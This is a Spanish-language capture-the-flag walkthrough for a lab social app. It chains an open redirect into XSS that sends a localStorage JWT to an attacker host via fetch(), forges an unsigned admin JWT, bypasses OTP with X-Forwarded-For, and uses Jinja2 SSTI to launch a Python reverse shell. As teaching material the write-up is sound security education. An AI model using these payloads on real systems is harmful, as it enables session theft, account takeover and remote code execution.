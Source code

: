# Soluciones

## Etapa 1: Acceder con cualquier usuario

<details>
<summary>Mostrar</summary>

En esta etapa, el objetivo es acceder a la aplicación con un usuario cualquiera.

Para empezar, accedemos a http://whp-socially/ y nos encontramos con la siguiente pantalla:

![](img/MainPage.png)

Vemos que en el menú lateral izquierdo tenemos la opción de "Login", pero no es importante dado que no tenemos ninguna cuenta y no podemos registrarnos.

Si revisamos las publicaciones de la página, vemos que hay una publicación de un usuario llamado "admin" con un enlace que nos lleva a la página de Google.

![](img/InterestingHyperlink.png)

Este enlace es relevante, porque no redirecciona directamente a Google, sino que usa un parámetro llamado "next" para redireccionar a la página que nosotros queramos.

Esto recuerda a una vulnerabilidad llamada "Open Redirect", que consiste en que un atacante puede redireccionar a un usuario a una página que no es la que el usuario espera, por ejemplo, a una página de phishing.

Para validar si esto es una vulnerabilidad, podemos manipular el parámetro "next", quedando el enlace de la siguiente manera:

http://whp-socially/?next=http://example.com

![](img/example.com.png)

Y al acceder a este enlace, nos redirecciona a la página example.com, lo que confirma la vulnerabilidad.

Open Redirect es una vulnerabilidad muy común, normalmente no es muy peligrosa y en muchos casos se reporta con criticidad baja o incluso informativa. Sin embargo, hay casos en las que se puede explotar para realizar ataques más complejos, como por ejemplo, un Cross-Site Scripting (XSS). Un XSS permite que un atacante ejecute código JavaScript en el navegador del usuario. Vamos a verificar si esto es posible.

Para esto, tenemos que identificar cómo realiza la aplicación la redirección. Podemos usar Burp Suite para interceptar la petición y ver qué está pasando.

![](img/RequestOpenRedirect.png)

La aplicación redirecciona utilizando código JavaScript, más específicamente, con la propiedad "href" del objeto "window.location".

Cuando se redirecciona mediante JavaScript, y no mediante una cabecera HTTP "Location", se puede escalar el Open Redirect a un XSS. Esto resulta muy útil para Bug Bounty, porque los XSS se reportan con mayor criticidad que los Open Redirect, brindando una mayor recompensa.

Intentemos explotar esto. Primero, probemos si "javascript:" nos funciona, para ver si podemos ejecutar código JavaScript.

![](img/javascriptBlocked.png)

Al parecer, "javascript:" está bloqueado. No obstante, mediante el uso del carácter %09 (tabulador codificado en URL), podemos evadir los filtros.

Para esto, agregamos dicho carácter entre la primera y la última letra de la palabra "javascript", quedando de la siguiente manera:

![](img/BypassFilter.png)

Este carácter genera un espacio en blanco, que es ignorado por el navegador. Esta simple técnica, pero no tan conocida, me sirvió para evadir el WAF comercial de Imperva en un escenario de Bug Bounty.

Ahora, podemos ejecutar código JavaScript. Vamos a intentar llamar a la función "alert()" para ver si funciona.

![](img/alertBlocked.png)

Al parecer, la función "alert()" también está bloqueada. Sin embargo, podemos utilizar la función "print()", que genera una ventana de impresión.

![](img/printAllowed.png)

¡Perfecto, funciona! Accedamos desde el navegador para confirmar que se ejecuta el código JavaScript. El enlace debe quedar de la siguiente manera:

http://whp-socially/?next=j%09avascript:print()

![](img/printExecuted.png)

El código JavaScript se ejecuta correctamente. No obstante, no es muy útil, ya que solo genera una ventana de impresión. Vamos a intentar algo más interesante, como por ejemplo, robar la sesión del usuario.

Pero antes, necesitamos identificar cómo almacena la sesión / autenticación la aplicación. Normalmente, se almacena en una cookie, pero no siempre es así. Para determinar esto, revisamos los archivos JavaScript que se están ejecutando en la página principal. En este caso, tenemos un archivo llamado "main.js".

![](img/localStoragetoken.png)

En este archivo, podemos ver que se llama a la función "localStorage.getItem('token')", que es la que se encarga de obtener el token del usuario desde el almacenamiento local del navegador.

En caso de que haya dudas, la diferencia principal entre las cookies y el almacenamiento local es que las cookies se almacenan en el navegador y el servidor, mientras que el almacenamiento local solo se almacena en el navegador.

Vamos a intentar robar el token del usuario. Necesitamos un servidor de atacante para recibir el token de la víctima. Para esto, podemos usar un servidor HTTP de Python, con el siguiente comando:

    python3 -m http.server 80

![](img/pythonhttpserver.png)

Ahora, vamos a ver cuál es la dirección IP de nuestra máquina de atacante. Para esto, podemos usar el comando "ifconfig". La dirección IP que nos interesa es la de la interfaz puente de Docker, con el nombre que empieza con "br-".

![](img/ifconfig.png)

Con esta información, podemos crear un payload que utilice la función "fetch()" para enviar el token al servidor de atacante mediante una petición GET. El enlace quedaría de la siguiente manera:

```
http://whp-socially/?next=j%09avascript:fetch(%27http://<IP_ATACANTE>/%27%2blocalStorage.getItem(%27token%27))
```

**Importante:** Hay que reemplazar \<IP_ATACANTE\> por la dirección IP de la máquina de atacante. Además, hay que codificar el carácter "+" en URL, para que no se interprete como un espacio en blanco.

Si probamos el enlace, veremos que la petición no llega al servidor de atacante. Revisemos la consola del navegador para ver qué está pasando.

![](img/blockedFetch.png)

Al parecer, hay un error de sintaxis relacionado con el carácter "&". Para depurar esto, podemos enviar la petición al Repeater de Burp Suite y ver dónde está el problema.

![](img/blockedFetchRepeater.png)

El problema está en que el carácter "%27" (comilla simple codificada en URL) está siendo codificado mediante HTML Entities. Esto se debe a que la aplicación está haciendo un escape de los caracteres especiales.

Para solucionar esto, podemos ver si el resto de comillas están siendo escapadas también. Con JavaScript, podemos representar strings mediante comillas simples, dobles o backticks.

![](img/checkingQuoteChars.png)

En este caso, los backticks no están siendo escapados. Por lo tanto, podemos utilizarlos para solucionar el problema. El enlace quedaría de la siguiente manera:

```
http://whp-socially/?next=j%09avascript:fetch(`http://<IP_ATACANTE>/`%2blocalStorage.getItem(`token`))
```

Si probamos el enlace, vemos que la petición llega al servidor de atacante.

![](img/requestReceived.png)

Nos llega el valor "null", esto se debe a que no estamos autenticados, pero esto nos sirve para comprobar que la petición llega correctamente. Ahora, vamos a enviar la petición a la víctima, utilizando el servidor de explotación disponible en http://whp-exploitserver/.

![](img/exploitServer.png)

Pulsamos el botón "Deliver URL to victim" para enviar el enlace a la víctima. El servidor de explotación simula la navegación de la víctima y vemos que un JSON Web Token (JWT) llega correctamente al servidor del atacante.

![](img/tokenReceived.png)

Ahora, podemos utilizar el JWT para autenticarnos en la aplicación de http://whp-socially/. Abrimos la consola del navegador y ejecutamos el siguiente código JavaScript:

    localStorage.setItem('token', 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzb2NpYWxseS1hcHAiLCJpZCI6NX0.<FIRMA>')

**Importante:** Para que la consola nos deje pegar el código anterior, hay que escribir "allow pasting" justo antes de ejecutar el código. Además, hay que reemplazar \<FIRMA\> por la firma del JWT que hemos obtenido.

![](img/localStoragesetItem.png)

Si recargamos la página, comprobamos que nos hemos autenticado correctamente con la cuenta de "ares".

![](img/loggedinasares.png)

</details>

## Etapa 2: Acceder como admin

<details>
<summary>Mostrar</summary>

En esta etapa, el objetivo es acceder como administrador.

Tras iniciar sesión, podemos ver que tenemos una funcionalidad para publicar posts, pero se encuentra deshabilitada.

![](img/disabledposting.png)

Por lo tanto, vamos a revisar el JWT en busca de vulnerabilidades.

JWT se compone de tres partes: header, payload y firma. El header contiene información sobre el algoritmo de cifrado utilizado. El payload contiene la información que queremos guardar en el JWT. La firma se utiliza para verificar que el JWT no ha sido modificado, y se calcula mediante el header, el payload y una clave secreta.

Gracias a la página [JWT.io](https://jwt.io/), podemos ver el contenido del JWT más fácilmente. Introducimos el JWT obtenido anteriormente y obtenemos la siguiente información:

![](img/jwtdecoded.png)

Tenemos un campo "id" con el valor "5", que seguramente corresponda al identificador del usuario. Para modificarlo, necesitamos conocer la clave secreta que se utiliza para firmar el JWT, a menos que podamos encontrar una vulnerabilidad.

Si revisamos el HTTP History de Burp Suite al añadir un JWT en el Local Storage del navegador y refrescamos la página, se realiza una petición contra el endpoint "/session", que dado un JWT válido devuelve una cookie de sesión.

![](img/jwtreturnssession.png)

Vamos a probar a eliminar la firma del JWT y ver qué ocurre. Si se elimina la firma y la aplicación no la comprueba, el JWT se considera válido. Si esto ocurre, la aplicación debe devolver una cookie de sesión.

![](img/signatureremoved.png)

Esta vulnerabilidad permite manipular el payload del JWT, por lo que podemos modificar el valor de la clave "id" para que sea "1" y acceder como el primer usuario de la aplicación, que normalmente es el administrador.

![](img/modifiedidjwt.png)

Cerramos sesión y especificamos el JWT modificado desde la consola del navegador de la siguiente manera:

    localStorage.setItem('token', 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzb2NpYWxseS1hcHAiLCJpZCI6MX0.')

![](img/setadminjwt.png)

Si recargamos la página, comprobamos que hemos accedido como administrador.

![](img/loginasadmin.png)

</details>

## Etapa 3: Leer el archivo /flag

<details>
<summary>Mostrar</summary>

En esta etapa, el objetivo es leer el archivo /flag, que contiene la flag final.

El panel de administración tiene la siguiente apariencia:

![](img/adminpanel.png)

Tenemos dos opciones: actualizar los datos del servidor SMTP y enviar un correo electrónico de prueba. El problema es que si intentamos usar cualquiera de las dos opciones, salta un segundo factor de autenticación, que nos pide un código OTP.

Ejemplo al intentar actualizar los datos del servidor SMTP:

![](img/verifyotp.png)

Existen casos en los que las aplicaciones confían en la cabecera "X-Forwarded-For". Esta cabecera fue creada para que los servidores web puedan saber la IP real de los usuarios que acceden a la aplicación a través de un proxy. En este caso, la aplicación confía en esta cabecera y no comprueba la IP real del usuario.

Si agregamos la cabecera "X-Forwarded-For" para que su valor sea la dirección IPv4 de loopback (127.0.0.1), la aplicación cree que el usuario está accediendo desde la misma máquina que el servidor, por lo que no se activa el segundo factor de autenticación.

La petición que se realiza al intentar actualizar los datos del servidor SMTP es la siguiente:

![](img/updatesmtporiginalrequest.png)

Al agregar la cabecera "X-Forwarded-For: 127.0.0.1", el servidor no comprueba el segundo factor de autenticación y autoriza la petición.

![](img/updatesmtpmodifiedrequest.png)

Podemos agregar una regla de "Match and Replace" en Burp Suite para que se agregue la cabecera "X-Forwarded-For" automáticamente en todas las peticiones, con la siguiente configuración:

* **Type:** Request header
* **Replace:** X-Forwarded-For: 127.0.0.1

![](img/addmatchreplacerule.png)

Vamos a modificar la dirección IP del servidor SMTP para que sea la del atacante.

![](img/smtpipmodified.png)

Con Python podemos crear un servidor SMTP que escuche en el puerto 25 y nos muestre los correos electrónicos que reciba. Para ello, ejecutamos el siguiente comando:

    sudo python3 -m smtpd -n -c DebuggingServer 0.0.0.0:25

![](img/pythonsmtpserver.png)

Ahora, si enviamos un correo electrónico de prueba a cualquier dirección, lo recibimos en el servidor SMTP.

![](img/receiveemail.png)

La petición que se realiza al enviar un correo electrónico de prueba es la siguiente:

![](img/sendemailrequest.png)

La clave "message" llama la atención porque su valor contiene la variable {{session['username']}}, que es sustituido por el nombre del usuario que envía el correo electrónico. Esto recuerda a una vulnerabilidad de Server-Side Template Injection (SSTI), que permite ejecutar código en el servidor, en este caso, código Python.

Para confirmar que se trata de una vulnerabilidad de SSTI, lo primero es identificar el motor de plantillas que utiliza la aplicación, dado que cada uno tiene su propia sintaxis. 

El motor de plantillas más utilizado en Flask es Jinja2. Para comprobar si la aplicación está utilizando este motor de plantillas, podemos probar a enviar un correo electrónico de prueba con el siguiente contenido:

    {{config}}

![](img/config.png)

Y comprobar si la respuesta contiene información sobre la configuración de la aplicación. 

![](img/configreceived.png)

Funciona, por lo que podemos probar a extraer el contenido del archivo /flag, mediante el siguiente payload extraído de [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-ospopenread):

    {{cycler.__init__.__globals__.os.popen('cat /flag').read()}}

![](img/messagetoolong1.png)

Desgraciadamente, el valor de la clave "message" es demasiado largo, por lo que el payload no es ejecutado.

Necesitamos un payload más corto, pero primero necesitamos conocer cuánto espacio tenemos disponible para el payload. Vamos a ir agregando caracteres "X" en "message" hasta que la petición devuelva un error.

Al enviar 45 caracteres "X", la petición funciona correctamente.

![](img/45x.png)

Al enviar 46 caracteres "X", la petición devuelve un error.

![](img/46x.png)

Podemos concluir que tenemos 45 caracteres disponibles para el payload.

El artículo [Exploiting Jinja SSTI with limited payload size](https://niebardzo.github.io/2020-11-23-exploiting-jinja-ssti/) ofrece una solución para saltar la restricción de tamaño de payload.

La técnica propuesta consiste es actualizar "config", que es un diccionario que contiene la configuración de la aplicación. Añadimos un elemento al diccionario llamado "a" con el comando que le pasemos por el parámetro GET "a" (valga la redundancia). 

De esta forma, no necesitamos incluir el comando en el campo "message", sino que lo pasamos por el parámetro GET, evadiendo así la restricción de tamaño.

En este caso, el comando es una reverse shell de Python 3.

    python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP_ATACANTE>",<PUERTO_ATACANTE>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

**Importante:** Modificar "IP_ATACANTE" y "PUERTO_ATACANTE" por la dirección IP y el puerto del atacante respectivamente. Seleccionamos el texto y presionamos "Ctrl+U" en el Repeater de Burp Suite para que se codifique en formato URL.

Y el payload que vamos a utilizar es el siguiente:

    {{config.update(a=request.args.get('a'))}}

![](img/payload.png)

Nos ponemos a la escucha en el puerto especificado en el payload.

    nc -lvnp <PUERTO_ATACANTE>

![](img/nc.png)

Lanzamos os.popen(config.a) para que se ejecute el comando de la reverse shell, con el siguiente payload:

    {{lipsum.__globals__.os.popen(config.a)}}

Explicación del payload:
* **lipsum:** función que genera texto aleatorio, desde aquí podemos acceder a las variables globales.
* **\_\_globals\_\_:** diccionario que contiene las variables globales de las funciones, incluyendo "os".
* **os:** módulo que contiene funciones para interactuar con el sistema operativo.
* **popen:** función que ejecuta un comando en el sistema operativo.

![](img/revshell.png)

Y obtenemos una reverse shell.

![](img/shell.png)

Leemos el contenido del archivo /flag.

![](img/flagcontent.png)

</details>
